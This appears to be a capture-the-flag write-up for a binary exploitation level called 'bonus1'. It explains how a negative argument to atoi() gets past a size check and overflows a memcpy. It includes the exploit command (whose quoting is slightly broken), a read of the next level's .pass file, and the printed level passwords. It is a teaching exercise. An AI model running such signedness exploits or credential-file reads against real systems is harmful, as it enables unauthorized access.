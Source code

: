 # Bonus1
```bash
su bonus1 #cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Steps
We can see a call to `/bin/sh` but some conditional jumps prevent its execution.   
If after passing it to `atoi()` the first argument is superior or equal to 9, the process will exit.   
Otherwise it will use that `number * 4` as a size parameter to `memcpy()` `argv[2]` into a buffer.   

The last conditional jump compares a dword value placed 40 bytes after the start of the buffer.    
This means we need the `memcpy()` size to reach at least `44 bytes` in length.

The `jle` instruction treats the input as signed, this means we can enter a negative signed integer that will equate `44` after being multiplied by `4`.

```bash
./bonus1 -1073741813 $(python -c "print 'A' * 40 + 'FLOW")

cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
